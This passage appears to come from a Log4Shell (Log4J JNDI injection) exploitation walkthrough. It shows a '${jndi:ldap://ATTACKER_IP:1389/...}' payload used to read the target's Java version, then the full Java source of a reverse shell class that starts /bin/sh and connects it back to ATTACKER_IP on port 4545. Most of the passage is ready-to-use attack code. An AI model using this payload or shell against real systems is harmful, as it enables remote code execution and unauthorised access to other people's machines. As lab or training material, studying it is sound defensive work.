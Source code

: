 To test for the version we can use the following payload (Note that the port changes since we are listening for LDAP connections):

```text
${jndi:ldap://ATTACKER_IP:1389/${java:version}}
```

From the following screenshot, we see that the java version is `1.8.0_181` which is perfectly in range for Log4J exploitation.

![](img/wl-java-version.jpeg)

As for the shell that I will be using... This is a simple one I pulled from GitHub! Here is the source code:

```java
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class Exploit {

    public Exploit() throws Exception {
        String host = "ATTACKER_IP";
        int port = 4545;
        String cmd = "/bin/sh";
        Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
        Socket s = new Socket(host, port);
        InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
        OutputStream po = p.getOutputStream(), so = s.getOutputStream();
        while (!s.isClosed()) {
            while (pi.available() > 0)
                so.write(pi.read());
            while (pe.available() > 0)
                so.write(pe.read());
            while (si.available() > 0)
                po.write(si.read());
            so.flush();
            po.flush();
            Thread.sleep(50);
            try {
                p.exitValue();
                break;
            } catch (Exception e) {}
        };
        p.destroy();
        s.close();
    }
}
```
